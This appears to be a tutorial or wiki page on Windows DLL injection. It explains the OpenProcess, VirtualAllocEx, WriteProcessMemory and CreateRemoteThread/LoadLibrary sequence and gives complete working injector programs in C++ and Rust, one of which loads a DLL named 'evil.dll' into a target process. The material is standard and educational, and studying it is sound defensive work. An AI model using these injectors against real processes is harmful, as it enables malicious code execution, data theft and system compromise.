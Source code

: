 
DLL injection is a technique used in software programming where a malicious code is injected into a legitimate process. 

This is done by forcing the process to load and execute a dynamic-link library (DLL) that contains the malicious code. Once the malicious DLL is loaded, it can perform various unauthorized actions, such as stealing sensitive information, modifying system behavior, or providing remote access to the compromised system. 

Due to the nature of DLLs, this attack can only be performed on windows systems, but other similar techniques exist for other systems, such as Shared Object Injection for Unix-like systems, Mach-O Injection for MacOS and bytecode Injection into Dalvik/ART for systems based on Android. 
## How does it work ?

First, we need a handle to the target process, so we need to open the target process using the **OpenProcess** function.
We then need to allocate space in memory for our  DLL Path. This can be easily achieved using the **VirtualAllocEx** function, then written into using the **WriteProcessMemory** function.

After this, using **GetProcAddress**, we recover the address of the **LoadLibrary** function in kernel32.dll.  
  
The final step is to create a thread in the target process. Using the lpStartAddress parameter we can specify a "Start routine", a function that will tell the program a new thread is being started. 
Using **LoadLibrary** as a start routine, it will be executed when the thread starts attaching our DLL to the targeted process.
## Examples
### In C++
```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>

char evilDLL[] = "C:\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer

  // handle to kernel32 and pass it to GetProcAddress
  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

  // parse process ID
  if ( atoi(argv[1]) == 0) {
      printf("PID not found :( exiting...\n");
      return -1;
  }
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, evilLen, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)lb, rb, 0, NULL);
  CloseHandle(ph);
  return 0;
}
```

### In Rust 
```rust
use std::{env, process};  
use windows::{  
    core::s,  
    Win32::{  
        Foundation::*,  
        System::{  
            Threading::{OpenProcess, PROCESS_ALL_ACCESS, CreateRemoteThread, INFINITE, WaitForSingleObject},  
            Memory::{VirtualAllocEx, PAGE_READWRITE, MEM_RESERVE, MEM_COMMIT},  
            LibraryLoader::{GetProcAddress,GetModuleHandleA},  
            Diagnostics::Debug::WriteProcessMemory,  
        },  
    }  
};  
  
  
fn main() {  
    let args: Vec<String> = env::args().collect();  
    if args.len() != 2 {  
        eprintln!("Usage: {} <pid>", args[0]);  
        process::exit(1);  
    }  
    let pid = match (&args[1]).parse::<u32>() {  
        Ok(pid) => {  
            println!("[+] PID: {}", &pid);  
            pid  
        },  
        Err(err) => {  
            eprintln!("[-] Error parsing PID: {}", err);  
            process::exit(1);  
        }  
    };  
  
    let dll_path = "C:\\Users\\Amber\\RustroverProjects\\Rust-Dll\\target\\release\\hello.dll";  
  
    unsafe {  
        println!("[+] Opening target process");  
        let hprocess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid).unwrap_or_else(|e| {  
            eprintln!("[-] Failed to open target process, PID might be invalid");  
            process::exit(-1);  
        });  
  
  
        let haddr = VirtualAllocEx(hprocess, None, dll_path.len(), MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);  
        if haddr.is_null() {  
            eprintln!("[-] Failed to allocate remote memory");  
            process::exit(-1);  
        }  
  
        println!("[+] Writing DLL path into remote memory");  
        WriteProcessMemory(hprocess, haddr, dll_path.as_ptr() as _, dll_path.len(), None)  
            .unwrap_or_else(|_err| {  
                eprintln!("[-] Failed to write DLL Path to remote memory");  
                process::exit(-1);  
            });  
  
        let hkernel32 = GetModuleHandleA(s!("kernel32.dll")).unwrap_or_else(|e| {  
            eprintln!("[-] Failed to get a handle on kernel32.dll");  
            std::process::exit(-1);  
        });  
        let loadlib = GetProcAddress(hkernel32, s!("LoadLibraryA"));  
  
        println!("[+] Creating remote thread");  
        let hthread = CreateRemoteThread(  
            hprocess,  
            None,  
            0,  
            Some(std::mem::transmute(loadlib)),  
            Some(haddr),  
            0,  
            Some(std::ptr::null_mut()  
        )).unwrap_or_else(|_err| {  
            eprintln!("[-] Failed to create remote thread");  
            process::exit(-1);  
        });  
        WaitForSingleObject(hthread, INFINITE);  
        CloseHandle(hprocess).unwrap_or_else(|e| {  
            eprintln!("[-] Failed to close process handle");  
            process::exit(-1);  
        });  
    }  
  
    println!("[+] Done !");  
}
```

## References

### MSDN 
[OpenProcess](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess)
[VirtualAllocEx](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)
[GetModuleHandleA](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getmodulehandlea)
[GetProcAddress](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress)
[WriteProcessMemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)
[CreateRemoteThreadEx](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethreadex)
[CloseHandle](https://learn.microsoft.com/en-us/windows/win32/api/handleapi/nf-handleapi-closehandle)
